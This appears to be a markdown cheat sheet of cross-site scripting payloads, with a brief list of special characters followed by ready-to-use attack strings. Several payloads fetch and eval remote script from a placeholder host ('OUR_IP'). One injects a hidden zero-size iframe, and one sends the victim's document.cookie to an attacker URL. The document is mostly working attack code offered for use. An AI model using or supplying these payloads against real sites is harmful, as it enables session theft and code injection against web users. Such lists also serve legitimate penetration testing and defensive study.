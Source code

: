 # references

### references: special characters for HTML and javascript
```
< > - used to denote HTML elements 
' " - strings
{ } - javascript function declarations
;   - end of statement
```
---

# Payloads

### script: XSS with script tag 
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
---

### script: XSS content injection with iframe
```html
<iframe src=<your_url> height="0" weight="0"></iframe>
```
---

### script: XSS cookie exfiltration with javascript
```html
<script>new Image().src="<your_url>/page.html?output="+document.cookie;</script>
```
---
